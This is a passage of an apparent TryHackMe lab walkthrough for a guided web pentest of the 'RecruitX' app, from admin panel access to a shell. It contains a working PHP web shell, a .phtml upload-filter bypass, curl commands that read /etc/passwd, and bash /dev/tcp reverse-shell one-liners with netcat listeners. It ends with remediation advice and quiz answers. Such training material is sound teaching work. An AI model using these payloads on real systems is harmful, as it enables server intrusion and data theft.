

Answer: `Administrator`

---------------------------------------------------------------------------

### Task 5: Admin Panel Access

We are now logged in as Sarah Mitchell, the application's administrator. Earlier during our enumeration, Gobuster discovered an `/admin` path that redirected unauthenticated users to the login page. Now that we have administrator credentials, let's see what is behind that door.

#### Exploring the Admin Dashboard

Navigate to `http://10.112.138.140/admin` using the browser where you are logged in as Sarah Mitchell. The admin panel exposes several management pages. Most of these are standard administrative functions, but one stands out immediately: `/admin/upload.php`. A file upload function in the hands of an administrator is a powerful feature, and from a penetration tester's perspective, it is a potential path to remote code execution.



#### Investigating the Upload Function

Let's examine the upload page. Right-click on the `Upload` button and click `Inspect`, where you can inspect the client-side code:



We can notice several important details. The form says it accepts PDF, DOCX, and image files. The `accept` attribute on the file input restricts file types, but this is a client-side restriction only. The browser enforces it, but a direct HTTP request can send whatever file type it wants. The page also reveals the upload destination: `/uploads/documents/`.

#### Testing the Upload Restrictions

Let's test whether the server enforces file type restrictions. First, we will try uploading a harmless text file to see how the application responds. In the AttackBox, enter the following command to create a text file:

```bash
root@tryhackme:~# echo "This is a test file" > test.txt
```

Once the file is created, upload it to the admin panel. Open the upload page, right-click on the file input, and select Inspect. In the HTML, remove the accept attribute by deleting it (backspace) so the browser no longer restricts file types. Now select and upload your file directly, bypassing the client-side restriction.



The server rejected the `.txt` file.



So there is some server-side validation. But how thorough is it? Let's test whether the server checks only the file extension or also the file content. We will create a PHP file by using the following command:

```bash
root@tryhackme:~# echo '<?php echo "PHP is executing"; ?>' > test.php
```

Once created, try to upload again. Still rejected. The application appears to be checking the final extension.

Let's try another common bypass using the `.phtml` extension, which Apache often processes as PHP:

```bash
root@tryhackme:~# echo '<?php echo "PHP is executing"; ?>' > test.phtml
```

The `.phtml` extension was accepted. The application's file type filter blocks `.php` but does not account for alternative PHP extensions. This is a common oversight; developers create a blocklist of "dangerous" extensions, but miss less common ones that the server still processes as PHP.



Let's verify that our uploaded file executes by visiting the page `http://10.112.138.140/uploads/documents/test.phtml`.



The server executed the PHP code and returned the output. We have confirmed that we can upload and execute PHP files on the server. In the next task, we will use this to gain remote code execution.

---------------------------------------------------------------------------

#### What is the name of the PHP file responsible for handling file upload in the RecruitX web app?

From the HTML-source of `http://10.112.138.140/admin/upload.php`:

```html
<!---snip--->
    <!-- Upload Form -->
    <div class="rx-card mb-4">
        <div class="card-body" style="padding: 2rem;">
            <form action="/admin/upload.php" method="POST" enctype="multipart/form-data">
                <div class="mb-4">
                    <label class="form-label">Select File</label>
                    <input type="file" class="form-control" name="document" accept=".pdf,.docx,.jpg,.png" required>
                    <div style="color: var(--rx-text-muted); font-size: 0.82rem; margin-top: 0.5rem;">
                        Accepted formats: PDF, DOCX, JPG, PNG · Maximum size: 5MB
                    </div>
                </div>
                <button type="submit" class="btn btn-rx-primary">
                    <i class="bi bi-cloud-arrow-up me-2"></i>Upload
                </button>
            </form>
            <div class="mt-3 px-3 py-2" style="background: var(--rx-surface-3); border-radius: 8px; font-size: 0.85rem;">
                <i class="bi bi-folder2-open me-2" style="color: var(--rx-text-muted);"></i>
                Uploaded files are stored in: <code class="mono" style="background: none;">/uploads/documents/</code>
            </div>
        </div>
    </div>
<!---snip--->
```

Answer: `upload.php`

#### What HTML attribute on the file input is used to restrict selectable file extensions on the client side?

See code above.

Answer: `accept`

#### Which alternative PHP extension bypassed the upload filter?

Answer: `.phtml`

---------------------------------------------------------------------------

### Task 6: Remote Code Execution

We have confirmed that we can upload PHP files to the server and that the server will execute them. This is the point in the penetration test where all the previous steps come together. We started with nothing, no credentials, no knowledge of the application. Through enumeration, IDOR exploitation, password reset abuse, and admin panel access, we have reached a position where we can execute arbitrary code on the server.

#### Creating a Web Shell

A web shell is a small script that accepts commands through HTTP parameters and executes them on the server. Let's create a simple one and save it as `shell.phtml`:

```php
<?php
if(isset($_GET['cmd'])) {
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
}
?>
```

This script checks for a `cmd` parameter in the URL. If present, it passes the value to `shell_exec()`, which runs the command on the operating system and returns the output. Upload the file on the Admin panel `http://10.112.138.140/admin/upload.php`.

#### Executing Commands

Let's verify we have code execution by running a simple command:

```bash
root@tryhackme:~# curl "http://10.112.138.140/uploads/documents/shell.phtml?cmd=whoami"
<pre>www-data</pre>
root@tryhackme:~# curl "http://10.112.138.140/uploads/documents/shell.phtml?cmd=id"
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)</pre>
```

We have remote code execution. The commands are running as www-data, which is the default user for the Apache web server on Ubuntu. Let's gather more information about the system:

```bash
root@tryhackme:~# curl "http://10.112.138.140/uploads/documents/shell.phtml?cmd=hostname"
<pre>example-hostame</pre>
root@tryhackme:~# curl "http://10.112.138.140/uploads/documents/shell.phtml?cmd=uname+-a"
<pre>Linux example-hostame 6.8.0-1017-aws #18-Ubuntu SMP Wed Oct  2 20:17:03 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux</pre>
```

We can now see the hostname, kernel version, and execute any command on the system.

#### Reading Sensitive Files

Since we can read files on the server, a good first step is to check system files that list users. In Linux, `/etc/passwd` contains basic account information:

```bash
root@tryhackme:~# curl "http://10.112.138.140/uploads/documents/shell.phtml?cmd=cat+/etc/passwd" | grep -v "nologin"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2088  100  2088    0     0   398k      0 --:--:-- --:--:-- --:--:--  407k
<pre>root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
pollinate:x:111:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
dhcpcd:x:114:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false
mysql:x:115:123:MySQL Server,,,:/nonexistent:/bin/false
</pre>
```

By utilising our web shell, we accessed `/etc/passwd` and identified system users. In a real-world scenario, this level of access would enable further enumeration of configuration files to extract database credentials and gain full access to the application's backend data.

#### Obtaining a Reverse Shell

A web shell works, but it is limited; each command is a separate HTTP request, there is no interactive session, and complex commands with special characters can be difficult to pass through URL parameters. Let's upgrade to a proper reverse shell.

First, set up a listener on your AttackBox:

```bash
root@tryhackme:~# nc -lvnp 4444
listening on [any] 4444 ...
```

In a second terminal, trigger the reverse shell through the web shell. We will URL-encode the payload to avoid issues with special characters:

```bash
root@tryhackme:~# curl "http://10.112.138.140/uploads/documents/shell.phtml?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/CONNECTION_IP/4444+0>%261'"
```

Back in your listener terminal:

```bash
root@tryhackme:~# nc -lvnp 4444
listening on [any] 4444 ...
Connection received on CONNECTION_IP 48268
www-data@example-hostame:/var/www/html/uploads/documents$ whoami
www-data
www-data@example-hostame:/var/www/uploads/documents$ 
```

We now have an interactive shell on the target server. From here, a penetration tester would typically proceed to local enumeration and privilege escalation, but that is beyond the scope of this room.

#### Reading the Flag

To confirm you have completed the engagement, read the flag file on the system:

```bash
www-data@example-hostame:~$ cat /var/www/flag.txt
{REDACTED}
```

---------------------------------------------------------------------------

#### What user is the web shell running as?

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/Guided_Pentest_Web]
└─$ curl 'http://10.112.138.140/uploads/documents/shell.phtml?cmd=id'    
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre> 
```

Answer: `www-data`

#### What is the hostname of the target server?

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/Guided_Pentest_Web]
└─$ curl 'http://10.112.138.140/uploads/documents/shell.phtml?cmd=hostname'
<pre>recruitx-prod
</pre>  
```

Answer: `recruitx-prod`

#### What is the flag?

Start  a netcat listener on port 12345.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/Guided_Pentest_Web]
└─$ nc -lvnp 12345
listening on [any] 12345 ...

```

Trigger a bash reverse shell.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/Guided_Pentest_Web]
└─$ curl 'http://10.112.138.140/uploads/documents/shell.phtml?cmd=bash+-c+"bash+-i+>%26+/dev/tcp/192.168.152.166/12345+0>%261"'

```

Get the flag at the netcat listener.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/Guided_Pentest_Web]
└─$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [192.168.152.166] from (UNKNOWN) [10.112.138.140] 53878
bash: cannot set terminal process group (736): Inappropriate ioctl for device
bash: no job control in this shell
www-data@recruitx-prod:/var/www/recruitx/uploads/documents$ cat /var/www/flag.txt
<w/recruitx/uploads/documents$ cat /var/www/flag.txt        
THM{<REDACTED>}
www-data@recruitx-prod:/var/www/recruitx/uploads/documents$ 
```

Answer: `THM{<REDACTED>}`

---------------------------------------------------------------------------

### Task 7: The Attack Chain

Let's take a step back and look at the full path we followed. In a penetration test report, you would document the entire chain of vulnerabilities, showing the client how each weakness contributed to the overall compromise. Here is our chain:

1. **Enumeration**: We discovered the application's technology stack (Apache, PHP, MySQL), its directory structure, an API endpoint, a password reset page, an uploads directory, and an admin panel.
2. **IDOR** (Task 3): The /profile.php?id= parameter and the /api/user?id= endpoint allowed us to enumerate all users, including the administrator's name and email address.
3. **Weak Password Reset** (Task 4): The reset mechanism displayed tokens directly in the HTTP response, allowing us to generate a token for the administrator and change her password.
4. **Admin Panel Access** (Task 5): Using the compromised administrator account, we accessed the admin panel and found a file upload function with an incomplete extension blocklist.
5. **Remote Code Execution** (Task 6):  We uploaded a PHP web shell using the .phtml extension, which bypassed the filter. This gave us command execution on the server and a path to a full reverse shell.

No single vulnerability in this chain led to full server compromise on it's own. The IDOR leaked user information but did not provide direct access. The password reset was exploitable but only useful because we already knew the admin's email. The upload filter had a bypass, but we needed admin credentials to reach it. It was the combination of these weaknesses that led to full server compromise.

#### Remediation Summary

If you were writing the report for this engagement, these are the remediation recommendations you would provide for each finding:

|Vulnerability|Severity|Remediation|
|----|----|----|
|IDOR on user profiles and API|High|Implement server-side authorisation checks on every request. Verify that the authenticated user has permission to access the requested resource.|
|Password reset token exposed in the response|Critical|Send reset tokens exclusively via email. Display only a generic confirmation message on the page. Use cryptographically random tokens of at least 32 characters.|
|Incomplete file extension blocklist|Critical|Use an allowlist rather than a blocklist. Only permit specific, expected extensions. Validate file content (MIME type) in addition to the extension. Store uploaded files outside the web root.|
|API endpoint disclosure|Medium|Remove the API index endpoint or restrict it to authenticated administrators. Do not expose internal route structures to unauthenticated users.|

---------------------------------------------------------------------------

#### How many distinct vulnerabilities were chained together in this engagement?

Answer: `4`

#### What approach should be used instead of a blocklist when validating file uploads?

Answer: `allowlist`

---------------------------------------------------------------------------

### Task 8: Conclusion

In this room, we walked through a complete web application penetration test, from the initial Nmap scan to remote code execution on the underlying server. Along the way, you practised the mindset that separates a good penetration tester from a great one: patience, observation, and the ability to connect findings across different parts of an application.

Let's recap the key lessons from this engagement:

- **Enumeration is everything**. The vulnerabilities we exploited were discoverable because we took the time to map the application's structure, headers, endpoints, and behaviour before attempting exploitation.
- **Small flaws chain into big compromises**. No single issue here was exotic or particularly complex. IDOR, weak password resets, and upload bypasses are well-understood vulnerabilities. Their impact came from how they connected to each other.
- **Client-side restrictions are not security**. The file upload form used an accept attribute to restrict file types in the browser. The server-side check used a blocklist that missed alternative PHP extensions. Real security requires server-side validation with an allowlist approach.
- **Password reset mechanisms deserve careful attention**. They are complex to implement securely, and a single design flaw, like exposing the token in the response, can lead to account takeover.
- **Think like an attacker, report like a consultant**. Finding the vulnerabilities is half the job. Documenting them clearly with severity ratings and actionable remediation advice is what makes the engagement valuable to the client.

You have completed the guided pentest. It is time to apply what you have learned to the upcoming challenges.

---------------------------------------------------------------------------

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [API - Wikipedia](https://en.wikipedia.org/wiki/API)
- [cat - Linux manual page](https://man7.org/linux/man-pages/man1/cat.1.html)
- [curl - Homepage](https://curl.se/)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [cURL - Wikipedia](https://en.wikipedia.org/wiki/CURL)
- [export - Linux manual page](https://www.man7.org/linux/man-pages/man1/export.1p.html)
- [File upload vulnerabilities - PortSwigger](https://portswigger.net/web-security/file-upload)
- [Gobuster - GitHub](https://github.com/OJ/gobuster/)
- [Gobuster - Kali Tools](https://www.kali.org/tools/gobuster/)
- [grep - Linux manual page](https://man7.org/linux/man-pages/man1/grep.1.html)
- [hostname - Linux manual page](https://man7.org/linux/man-pages/man1/hostname.1.html)
- [HTML - Wikipedia](https://en.wikipedia.org/wiki/HTML)
- [HTTP cookie - Wikipedia](https://en.wikipedia.org/wiki/HTTP_cookie)
- [id - Linux manual page](https://man7.org/linux/man-pages/man1/id.1.html)
- [Insecure Direct Object Reference (IDOR) - OWASP](https://owasp.org/www-community/attacks/insecure_direct_object_reference)
- [Insecure direct object references (IDOR) - PortSwigger](https://portswigger.net/web-security/access-control/idor)
- [MySQL - Wikipedia](https://en.wikipedia.org/wiki/MySQL)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [Nmap - Wikipedia](https://en.wikipedia.org/wiki/Nmap)
- [OpenSSH - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [Penetration test - Wikipedia](https://en.wikipedia.org/wiki/Penetration_test)
- [PHP - Wikipedia](https://en.wikipedia.org/wiki/PHP)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [Web shell - Wikipedia](https://en.wikipedia.org/wiki/Web_shell)
